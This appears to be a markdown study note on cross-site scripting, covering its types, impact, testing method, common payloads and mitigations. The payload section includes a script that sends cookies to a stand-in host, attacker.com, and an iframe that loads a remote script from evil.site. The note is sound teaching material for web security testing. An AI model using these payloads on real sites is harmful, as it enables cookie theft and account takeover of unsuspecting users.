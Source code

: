 # 🎯 Cross-Site Scripting (XSS)  
*Web vulnerability where attackers inject malicious scripts into trusted websites*  

---

## 📖 Table of Contents  
- [📜 Definition](#-definition)  
- [🔀 Types of XSS](#-types-of-xss)  
- [💥 Impact](#-impact)  
- [🔍 Testing Methodology](#-testing-methodology)  
- [📌 Common Payloads](#-common-payloads)  
- [📚 Resources](#-resources)  
- [🛡️ Mitigation](#️-mitigation)  

---

## 📜 Definition  
XSS (Cross-Site Scripting) is an injection vulnerability where attackers execute malicious JavaScript in a victim's browser, often for:  
- Session hijacking 🕵️  
- Phishing attacks 🎣  
- Defacement 🏴  

---

## 🔀 Types of XSS  

| Type              | Description                                                                 | Risk Level |  
|--------------------|-----------------------------------------------------------------------------|------------|  
| **🔄 Stored XSS**   | Malicious script is **stored** on the server (e.g., comments/user profiles). Executes when victims view infected pages. | Critical   |  
| **🎯 Reflected XSS**| Script is **reflected** in immediate server responses (e.g., search results). Requires social engineering.             | High       |  
| **🌐 DOM-based XSS**| Client-side attack exploiting unsafe JavaScript DOM manipulation. No server interaction.                              | High       |  

---

## 💥 Impact  
- **Cookie/session theft** 🍪  
- **Account takeover** 👑  
- **Keylogging** ⌨️  
- **Content spoofing** 🎭  
- **Redirection to malicious sites** ➡️  

---

## 🔍 Testing Methodology  
1. **Identify Input Points**:  
   - Search bars 🔍  
   - Comment sections 💬  
   - User profiles (bio/username) 👤  
   - URL parameters (e.g., `?id=<payload>`) 🌐  

2. **Test for Reflection**:  
   - Inject a unique string (e.g., `cupcakes123`) and check:  
     ```html
     <!-- Check if it appears in: -->
     Page content | HTML source | Network responses (DevTools)
     ```  

3. **Escalate with Payloads**:  
   ```html
   <script>alert(1)</script>                 <!-- Classic test -->
   <img src=x onerror="alert(document.cookie)">  <!-- Cookie theft demo -->
   ```

---

## 📌 Common Payloads  
### Basic Tests  
```html
<script>alert(1)</script>
<img src=x onerror="alert(1)">
```  

### Advanced Attacks  
```html
<!-- Steal cookies -->
<script>fetch('https://attacker.com?cookie='+document.cookie)</script>  

<!-- Redirect to phishing site -->
<iframe src="javascript:document.write('<script src=//evil.site/xss.js></script>')">
```  

📖 Here is a cool Cheat Sheet: [XSS Payload Masterlist](https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45)  

---

## 📚 Resources  
| Resource | Description | Link |  
|----------|-------------|------|  
| **Beyond XSS** | Advanced exploitation techniques | [aszx87410.github.io](https://aszx87410.github.io/beyond-xss/en/) |  
| **PortSwigger Labs** | Hands-on XSS practice | [portswigger.net](https://portswigger.net/web-security/cross-site-scripting) |  
| **OWASP XSS Guide** | Defense strategies | [owasp.org](https://owasp.org/www-community/attacks/xss/) |  

---

## 🛡️ Mitigation  
| Strategy | Example |  
|----------|---------|  
| **Sanitize Inputs** | Remove/escape HTML tags with libraries like `DOMPurify` |  
| **Use CSP Headers** | `Content-Security-Policy: default-src 'self'` |  
| **Avoid Unsafe Functions** | Use `textContent` instead of `innerHTML` |  





